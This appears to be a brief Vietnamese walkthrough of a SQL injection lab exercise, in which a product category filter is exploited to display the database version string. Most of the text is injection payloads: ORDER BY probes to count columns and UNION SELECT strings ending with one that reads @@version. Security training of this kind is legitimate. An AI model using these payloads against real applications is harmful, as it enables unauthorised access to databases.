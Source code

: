 # Đầu bài cho biết:
- Ứng dụng có lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm.
- Có thể sử dụng tấn công UNION để truy xuất kết quả từ truy vấn được tiêm vào.

# Yêu cầu:
- Hiển thị chuỗi phiên bản cơ sở dữ liệu.


' ORDER BY 1--
' ORDER BY 1# -> LỖI
' ORDER BY 1%23 (%23 = #)
' ORDER BY 2%23
' ORDER BY 3%23 -> LỖI

' UNION SELECT NULL, NULL%23
' UNION SELECT 'a', 'aa'%23
' UNION SELECT NULL, NULL%23

' UNION SELECT 'Version', @@version%23
